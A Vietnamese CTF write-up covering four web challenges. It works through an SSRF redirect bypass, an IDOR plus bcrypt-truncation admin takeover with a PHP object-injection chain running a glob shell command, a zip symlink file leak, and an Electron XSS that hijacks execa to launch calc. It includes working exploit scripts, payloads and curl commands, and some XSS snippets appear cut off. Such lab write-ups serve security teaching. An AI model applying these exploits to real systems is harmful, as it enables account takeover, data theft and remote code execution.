# Vòng loại đội tuyển ATTT-PTIT

## Danh sách bài:
- [I love Python - Web](#i-love-python---web)
- [I love PHP - Web](#i-love-php---web)
- [I love .NET - Web](#i-love-net---web)
- [I love JavaScript - Web](#i-love-javascript---web)

## I love Python - Web

### Tổng quan challenge

Web cung cấp endpoint:
- `/fetch?url=...`: server sẽ `request.get(url)` để preview nội dung

- `/admin`: chỉ cho phép tru câp từ localhost:

```py
if request.remote_addr in ['127.0.0.1', '::1']:
    return f"CONGRATULATIONS! FLAG: {FLAG}"
```

### Điểm yếu

Hàm `is_safe_url(url)` chỉ kiểm tra:

- Scheme phải là `http` / `https`
- Resolve DNS hostname -> duyệt qua các IP và chặn nếu `ip.is_loopback` hoặc `ip.is_private`

Ở `/fetch`:

```py
r = requests.get(url, timeout=5, allow_redirects=True)
```
- Filter chỉ áp dụng cho url ban đầu (input)
     
- `allow_redirects=True` sẽ tự động follow 30x đến location mới mà không re-check.

- Vì vậy chỉ cần url input public nhưng redirect sang `http://127.0.0.1:8002/admin`

### Ý tưởng khai thác

- Cung cấp cho `/fetch` một url public hợp lệ (pass filter)
- URL đó trả về 302 location: `http://127.0.0.1:8002/admin`
- Server follow redirect -> request nội bộ tới `/admin`
- `/admin` thấy `remote_addr == 127.0.0.1` -> trả flag.

#### **Thiết lập redirector:**

Tạo file `redir.py`:
```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header("Location", "http://127.0.0.1:8002/admin")
        self.end_headers()

HTTPServer(("127.0.0.1", 9000), H).serve_forever()
```

#### **Test local:**



#### **Expose redirector ra Internet (ngrok)**

Dùng ngrok để tạo URL public trỏ về port 9000:



Lấy url dạng: `https://1572-14-191-32-235.ngrok-free.app`



**FLAG:**
```
InfosecPTIT{R3d1r3ct_Ch41n_Byp4ss_King_9912}
```


## I love PHP - Web

### Tổng quan challenge

Web gồm 2 phase chính:
- Phase 1 (chiếm admin): Có API đổi mật khẩu nhận JSON, cập nhật password theo `id`

- Phase 2 (lấy flag): Trang `phase2.php` cho nhập serialized payload và gọi `unserialize()`

Điều kiện để vào phase2:

```php
if (empty($_SESSION['authed']) || $_SESSION['authed'] !== true || (int)($_SESSION['user_id'] ?? 0) !== 1) {
    header('Location: /index.html');
    exit;
}
```

- Đã đăng nhập `($_SESSION['authed'] === true)`

- Là admin `($_SESSION['user_id'] === 1)`

Flag nằm trong file nội bộ, được include từ `config.php`:
```php
require_once '/var/www/secret.php';
```

### Điểm yếu

**IDOR / Broken Access Control ở API đổi mật khẩu (chiếm admin)**

Code đổi mật khẩu (JSON API) chỉ check user đã login:

```php
if (!isset($_SESSION['user_id'])) {
    echo json_encode(['success' => false, 'message' => 'Not logged in']);
    exit;
}
```
Nhưng lại cho phép truyền `id` tùy ý và update thẳng DB:

```php
$targetId = $input['id'] ?? null;
...
$stmt = $pdo->prepare('UPDATE users SET password = ? WHERE id = ?');
$stmt->execute([$hash, (int)$targetId]);
```

Ở login, server verify kiểu:
```php
password_verify($pass . $RANDOM_SECRET, $hash)
```
Tưởng như sẽ chặn việc set password trùng vì có pepper `$RANDOM_SECRET`
Nhưng `bcrypt` có đặc tính: `bcrypt` chỉ sử dụng 72 bytes đầu của chuỗi input. Nên nếu ta đặt password mới sao cho bản thân nó đã ≥ 72 bytes, thì khi login:

- server tính:
    ```
    bcrypt( (pass + secret)[:72] )
    ```
- secret bị đẩy ra sau byte 72 bị cắt, không còn tác dụng

API giới hạn password ≤ 20 ký tự

```php
$plen = ulen($newPassword);
if ($plen < 1 || $plen > 20) {
    echo json_encode(['success' => false, 'message' => 'Password length is not in the given range']);
    exit;
}
```

`ulen()` đếm số ký tự Unicode, không phải số byte. Dùng emoji UTF-8 4-byte để nén byte vào ít ký tự

Ví dụ: 😀 là 4 bytes, nên:

- 18 emoji = 18 ký tự (<=20)

- nhưng byte = 18 × 4 = 72 bytes

Đặt new_password = "😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀" là đạt điều kiện bypass

**PHP Object Injection ở phase2 (unserialize user input)**

Trong `phase2.php`:

```php
if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}
```

User kiểm soát object tạo ra -> trigger magic method (`__wakeup`, `__toString`,` __destruct`) để đi tới `system()`

**Command filter nhưng có thể bypass bằng glob**

`GetThingsFromCDA::__destruct()` chỉ chạy `system($cmd)` nếu:

- `receive` cast string bằng "NiceGamer??????"
- global `$getflag == true`

Và filter command:

- Không được có `[a-zA-Z0-9]`
- `strlen(cmd) <= 9`

```php
if (preg_match('/[a-zA-Z0-9]/', $this->cmd) || strlen($this->cmd) > 9) die();
system($this->cmd);
```
Có thể bypass bằng wildcard/glob của shell (`*`, `?`, `/`, `space`)

### Ý tưởng khai thác
#### **Phase 1: Chiếm tài khoản admin (id=1) bằng IDOR**

- Đăng nhập user thường để có cookie `PHPSESSID`
- Gọi API đổi mật khẩu với JSON `{ "id": 1, "new_password": "..." }`
- Vì không check quyền sở hữu -> mật khẩu admin bị đổi
- Đăng nhập lại admin để thỏa điều kiện vào phase2

#### **Phase 2: POP chain để chạy system() và đọc flag**

Mục tiêu: kích hoạt `GetThingsFromCDA::__destruct()` gọi `system()`

**Gadget chain**

- Tạo object ngoài cùng `GetThingsFromCDA` (T) có:

    - `T->receive = Friend (F)` để khi cast string sẽ gọi `Friend->__toString()`

    - `T->cmd = <cmd payload>`

- `Friend->__toString()` sẽ set global `$getflag = true`, nhưng constructor `GetThingsFromCDA` die nếu nhận đúng string `"NiceGamer??????"`

- Bypass bằng object lồng `GetThingsFromCDA` (X):

    - `F->msg = X` (X là object, không phải string -> constructor không die)

    - `X->receive = "NiceGamer??????"` -> `(string)X` trả đúng chuỗi yêu cầu.

**Fix lỗi “Where is your command”**

- Object lồng (X) có thể bị destruct khi `$getflag=true` mà thiếu `cmd` ⇒ die sớm
-> set thêm `X->cmd=":"` để không chết

**Command bypass**

Dùng:
- `cmd = "/*/??? /*"` (đúng 9 ký tự, không chữ/số)

### Thực hiện khai thác

#### Phase 1: Đổi password admin

Đăng ký một user thường và đăng nhập, tiến hành đổi mật khẩu:



Sau đó đổi `id=1` (admin) và `new_password=😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀😀`



#### Phase 2: Gửi serialized payload

Payload cuối:
```
O:16:"GetThingsFromCDA":2:{s:7:"receive";O:6:"Friend":1:{s:3:"msg";O:16:"GetThingsFromCDA":2:{s:7:"receive";s:15:"NiceGamer??????";s:3:"cmd";s:1:":";}}s:3:"cmd";s:9:"/*/??? /*";}
```



FLAG:
```
InfosecPTIT{W3lc0Me_cda's_FrI3nd_t0_th3_h0Us3}
```


## I love .NET - Web

### Tổng quan challenge

Web cung cấp 2 endpoint chính:

- `POST /upload`  
  Nhận `.zip`, lưu vào `/app/uploads/<id>/`, giải nén vào:
  ```
  /app/uploads/<id>/extracted/
  ```
  Sau đó server duyệt toàn bộ file trong `extracted/` để trả JSON:
  ```json
  { "id": "...", "files": ["...", "...", ...] }
  ```

- `GET /view/{id}/{*relPath}`  
  Đọc nội dung file trong thư mục `extracted/` theo `relPath`

Challenge gợi ý “upload thứ gì đó interesting để lấy flag”

---

### Điểm yếu

#### 1) Không xử lý symlink đúng cách
Filter của server chủ yếu kiểm tra path traversal dựa trên **chuỗi đường dẫn** (vd `..`, absolute path)  
Nhưng nếu trong zip có **symlink**, việc “resolve path thật” sẽ xảy ra ở tầng filesystem, không bị chặn bằng regex/string check

#### 2) `EnumerateFiles(AllDirectories)` follow symlink directory -> tạo “symlink loop”
Sau khi giải nén, server gọi:

```csharp
Directory.EnumerateFiles(extractDir, "*", SearchOption.AllDirectories)
```

Trên môi trường Linux, thao tác này có thể **đi xuyên qua symlink thư mục**.

Nếu ta tạo symlink directory `r -> /app` bên trong `extracted/`, thì khi enumerate:

- Server đi vào `extracted/r` → thực chất là `/app`
- Trong `/app` lại có `/app/uploads/<id>/extracted/...`
- Nên enumerate sẽ quay lại chính nó và tạo chuỗi lặp:
  ```
  .../extracted/r/uploads/<id>/extracted/r/uploads/<id>/extracted/r/...
  ```

Hậu quả:
- Response JSON `files[]` cực dài (nhiều đường dẫn lặp lại)
- Và vô tình leak các file nằm trong `/app/...` (bao gồm backup/flag)

### Ý tưởng khai thác

1. Tạo zip có symlink directory `r -> /app`.
2. Upload → server enumerate follow symlink → sinh symlink loop → leak danh sách `files[]`.
3. Ban đầu dump hết để quan sát (recon).
4. Sau đó tối ưu script chỉ in entry có chữ `flag`.
5. Dùng `/view/<id>/<relPath>` để đọc file flag leak được.

### Khai thác chi tiết

#### Tạo zip chứa symlink directory `r -> /app`

```bash
cat > makezip.py <<'PY'
import stat, time, zipfile

def add_symlink(zf, name, target):
    zi = zipfile.ZipInfo(name)
    zi.create_system = 3  
    zi.external_attr = (stat.S_IFLNK | 0o777) << 16
    zi.date_time = time.localtime()[:6]
    zf.writestr(zi, target)

with zipfile.ZipFile("exploit.zip", "w", compression=zipfile.ZIP_STORED) as zf:
    add_symlink(zf, "r", "/app")
    zf.writestr("dummy.txt", "ok\n")
PY

python3 makezip.py
```

**Giải thích:**
- `external_attr` set kiểu file là `symlink` trên Unix.
- `writestr(..., "/app")` làm `r` trỏ tới `/app`.
- `dummy.txt` là file thường để zip “có nội dung” và dễ quan sát.

---

### Upload và dump hết file 

Ban đầu dump toàn bộ response để quan sát:

```bash
BASE="http://14.225.198.235:33073"

resp=$(curl -s -F 'file=@exploit.zip' "$BASE/upload")
echo "$resp"
```



- `/upload` trả JSON có `id` + `files[]`.
- `echo "$resp"` nên in toàn bộ `files[]`.
- Do `r -> /app` tạo symlink loop, `files[]` sinh ra đường dẫn lặp lại chứa `.../uploads/<id>/extracted/r/uploads/<id>/extracted/r/...`

---

### Chỉ in ra path có chứa flag

```bash
BASE="http://14.225.198.235:33075"

curl -s -F 'file=@exploit.zip' "$BASE/upload" | python3 -c 'import sys,json,re
j=json.load(sys.stdin)
print("ID="+j["id"])
for f in j.get("files", []):
    if re.search("flag", f, re.I):
        print(f)
        break
'
```



**Output**
```
ID=04c3bef09de049ec9487c5bec986917e
r/uploads/maintenance_backup_hidden_9faad5d1f98/flag571dc5730529.txt
```

 Suy ra flag nằm trong:
```
/app/uploads/maintenance_backup_hidden_9faad5d1f98/flag571dc5730529.txt
```

---

### Đọc flag qua `/view`

Dùng đúng `relPath` đã leak:

```bash
BASE="http://14.225.198.235:33075"
ID="04c3bef09de049ec9487c5bec986917e"

curl -s "$BASE/view/$ID/r/uploads/maintenance_backup_hidden_9faad5d1f98/flag571dc5730529.txt"
```




### FLAG

```txt
InfosecPTIT{Heh3_v3ry_guess1ng_ch4ll3ng3_symlink_a82d03a6-d6fb-4cc1-af93-5e5114a766a9}
```


## I love JavaScript - Web

### Tổng quan challenge

App Electron có 3 điểm chính:

- Renderer (`index.html`): có form comment, khi render comment dùng `innerHTML `và nhét thẳng `comment.text` vào HTML

- Preload (`src/preload.js`): expose API ra `window.electronAPI.checkEnvironment()` và bên trong gọi `execa()` để chạy whoami.

- Main (`main.js`): cấu hình `webPreferences`:

    - `nodeIntegration: false` ⇒ renderer không có `process/require`

    - `contextIsolation: false` ⇒ preload và renderer chung 1 JS world / chung global window

    - `sandbox: false` 

Mục tiêu: từ input comment -> khiến app chạy lệnh hệ thống (Windows: mở calc.exe/taskmgr.exe)

### Điểm yếu

#### DOM XSS / HTML Injection ở comment

Renderer render:

```js
commentsList.innerHTML = comments.map(comment => `
  <div>${comment.text}</div>
`).join('');
```

Không escape/sanitize -> chèn được payload kiểu `` để chạy JS

#### contextIsolation: false ⇒ XSS có thể đụng vào preload bằng prototype poisoning

Dù `nodeIntegration: false` làm renderer không có Node primitives, nhưng vì `contextIsolation` tắt, renderer và preload dùng chung JS context, nên renderer có thể sửa các built-in như `Array.prototype.unshift` và việc sửa này ảnh hưởng luôn tới code chạy trong preload/thư viện Node. 

#### Primitive chạy lệnh nằm ở preload qua execa()

Preload có:

- `Windows: execa('cmd', ['/c','whoami'])`

`cmd.exe`:

- `/c` = thực thi chuỗi lệnh rồi thoát 

- `&` là ký tự đặc biệt để nối lệnh 

### Ý tưởng khai thác

- XSS chạy JS -> hook `Array.prototype.unshift`

- Gọi `electronAPI.checkEnvironment()` để preload chạy `execa('cmd', ['/c','whoami'])`

- Bên trong Execa (Windows), trước khi spawn, Execa prepend /q bằng args.unshift('/q') (được mô tả rõ trong issue cross-spawn). 

- Vì ta đã hook `unshift`, lúc Execa gọi `unshift('/q')` ta chèn thêm tokens `& calc`

- Args bị biến thành: `cmd /c whoami & calc` -> mở Calculator.

### Các bước khai thác

#### Dựng app

Cài deps và chạy:

```
npm i
npm start
```
Xác nhận XSS:

```html

```




```js
webPreferences: {
      nodeIntegration: false,
      contextIsolation: false,
      sandbox: false,
      preload: path.join(__dirname, 'src', 'preload.js')
    }
```

Đọc `preload.js`:

```js
window.electronAPI = { checkEnvironment(){ ... execa(...) ... } }
```

=> Đây là primitive quyền cao vì nó chạy ở preload (có Node) và gọi được execa()

Test xem gọi được không:


```js

```



-> `renderer` gọi được API preload


Trong `checkEnvironment()` thấy cố định:
- Windows: `execa('cmd', ['/c','whoami'])`

Phải tìm cách tác động gián tiếp vào quá trình `execa` chuẩn hoá/spawn


Lúc này nhìn config:

- `contextIsolation: false`

=> renderer và preload chung 1 JS world, nên nếu renderer sửa `Array.prototype.*` thì code preload + thư viện Node chạy trong preload cũng bị ảnh hưởng

Mở `node_modules/execa/index.js` để tìm chỗ mutate args

```js
if (process.platform === 'win32' && path.basename(file, '.exe') === 'cmd') {
		// #116
		args.unshift('/q');
	}
```

- Execa chắc chắn gọi `args.unshift(...)`

- `unshift` là method của `Array.prototype` -> hook được

Mục tiêu cuối là biến câu lệnh thành dạng mà cmd hiểu:

```
cmd /c whoami & calc
```

Nên ta cần làm sao để mảng args sau khi execa xử lý thành:

```
['/q','/c','whoami','&','calc']
```

Cách làm:

- Hook `Array.prototype.unshift`

- Khi execa đang `unshift('/q')` vào `args` của `cmd /c ...` -> `push('&','calc')`

Điều kiện nhận dạng

- `arguments[0] === '/q'` (đúng lúc execa prepend)
- `this[1] === '/c'` (đúng mảng `args` đang là `cmd /c …`)

**Ráp payload hoàn chỉnh**

- Lưu unshift gốc
- Override unshift
- Trigger `electronAPI.checkEnvironment()` để `execa` chạy

```js
 {
    const u = [].unshift;
    Array.prototype.unshift = function () {
      const r = u.apply(this, arguments);
      if (arguments[0] === '/q' && this[1] === '/c') this.push('&', 'calc');
      return r;
    };
    electronAPI.checkEnvironment();
  })();
">
```

